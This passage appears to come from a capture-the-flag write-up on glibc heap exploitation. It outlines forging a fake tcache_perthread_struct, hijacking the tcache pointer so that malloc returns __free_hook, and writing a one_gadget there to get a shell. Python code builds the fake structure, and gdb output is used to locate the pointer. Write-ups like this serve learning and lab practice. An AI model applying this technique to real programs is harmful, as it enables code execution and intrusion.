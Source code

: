 2. Fill in the first `main()` input with the fake tcache, and overwrite the global `tcache` pointer with the pointer to the user-controlled tcache
3. The new `malloc(0x30)`'d memory will point to where `__free_hook` is. We can fill up that memory space with a one_gadget.
4. Allow `free()` to spawn a shell.

All that's left is...
## Implementation Hell
It was simple enough to create the fake `tcache` in python:
```python
SIZE = 0x40 #size of the second allocation
def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

fake_tcache = tcache_perthread_struct({free_hook: SIZE})
```
The issue arrives with figuring out precisely *where* the tcache pointer is. IDA Pro was not<sup>4</sup> very helpful.

Eventually, I figured out from [online sources](https://github.com/pwndbg/pwndbg/blob/dev/pwndbg/heap/ptmalloc.py#L138-L143) that the tcache (the real tcache in memory; not the pointer to the tcache) is always located at `heap_address+0x10`. From there, I used `gdb` to search for pointers to that space in memory:
```python
gef➤  vmmap heap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555557527000 0x0000555557548000 0x0000000000000000 rw- [heap]
gef➤  grep 0x0000555557527010
[+] Searching '\x10\x70\x52\x57\x55\x55\x00\x00' in memory
[+] In '[heap]'(0x555557527000-0x555557548000), permission=rw-
  0x5555575275b8 - 0x5555575275d8  →   "\x10\x70\x52\x57\x55\x55\x00\x00[...]"
[+] In (0x7facf8661000-0x7facf8667000), permission=rw-
  0x7facf8666530 - 0x7facf8666550  →   "\x10\x70\x52\x57\x55\x55\x00\x00[...]"
gef➤  vmmap libc
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00007facf8473000 0x00007facf8498000 0x0000000000000000 r-- /home/a/libc-database/libs/libc6_2.31-0ubuntu9_amd64/libc.so.6
```
There's only one pointer (`0x7facf8666530`) from the libc region, so we'll take that to be the tcache pointer.
